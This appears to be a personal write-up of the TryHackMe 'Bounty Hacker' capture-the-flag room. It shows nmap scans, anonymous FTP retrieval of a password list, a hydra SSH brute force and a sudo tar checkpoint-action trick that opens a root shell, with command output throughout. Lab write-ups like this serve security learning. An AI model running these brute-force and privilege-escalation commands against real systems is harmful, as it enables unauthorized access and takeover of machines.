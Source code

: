 # Bounty Hacker
Try Hack Me room      
ip=10.10.152.23

# Reconnaissance 
### Nmap 
```bash
nmap -T5 -sV -A  $host_ip 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 04:56 EST
Nmap scan report for 10.10.152.23
Host is up (0.17s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.54.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

```
Saved ip to /etc/host so i dont need to remenber ip 

Saved as => Bounty_hacker.thm

Going to that port we found a web hosted 

### Port 80

Looked into robots.txt nothing found so moved to fuzz it using ffuf
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://bounty_hacker.thm/FUZZ  -r 
```
Didn't find anything intersting. Since the box was easy i went to try the other ports 

### FTP 
Saw that Anonymous login was enabled on port 21. Intersting maybe there is something there. Found 2 files on the FTP server.
Lets GET them and see what happens.


## Lock.txt
This text file has what looks like some kind of credential, but to what? Lets try them on SSH since thats another open port.  
Note: We also found another text file on the ftp with a note     
1.) Protect Vicious.    
2.) Plan for Red Eye pickup on the moon.    
	-lin


## Gaining Access 
Lets try to bruteforce with the credentials we have and the user lin since its mentioned. 
```bash
hydra -l lin -P locks.txt 10.10.152.23  ssh 

```
Hoorray We are in !
```bash
	lin@bountyhacker:~/Desktop$ ls
	user.txt
	lin@bountyhacker:~/Desktop$ cat user.txt 

```

## Privilege Escalation
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:                                                                                 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin              
                                                                                                                                   
User lin may run the following commands on bountyhacker:                                                                           
    (root) /bin/tar 

```
We can see that lin can run tar binary with special privilege lets check if [gtfobins](https://gtfobins.github.io/) on how to privilege our way.

We can search the tar binary 

[https://gtfobins.github.io/](https://gtfobins.github.io/)
We can see that we can use sudo to gain better pprivilege  using 
```bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
And we are in 
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh                       
tar: Removing leading `/' from member names                                                                                        
# whoami                                                                                                                           
root         
```
DONE !!!